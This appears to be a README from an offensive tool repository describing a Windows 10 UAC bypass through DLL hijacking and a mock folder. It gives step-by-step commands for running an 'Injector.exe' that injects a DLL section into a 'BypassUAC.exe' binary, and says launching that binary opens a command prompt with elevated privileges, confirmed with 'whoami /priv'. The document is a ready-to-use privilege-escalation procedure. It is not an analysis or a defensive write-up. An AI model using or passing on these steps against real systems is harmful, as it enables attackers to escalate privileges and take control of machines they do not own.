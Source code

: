 # Bypassing Windows 10 with mock folder and DLL Hijacking  
## Auto

**Steps**
1. Inject the DLL into the binary
2. Start the binary will open cmd in UAC privilege!

In the cmd go to the folder that "Injector.exe" is inside.
Type the command:

```cmd
Injector.exe <.SectioName> <Binary_path> <DLL_path>
```

For Example:
```cmd
Injector.exe .DLL BypassUAC.exe DLL_BypassUAC.dll
```
To check if the section is injected successfully you can open the binary in "CFF Explorer" software.

Start the binary!

To check if its works type in the new cmd that now opened:
```cmd
whoami /priv
```

**Links**

CFF Explorer:
https://ntcore.com/?page_id=388
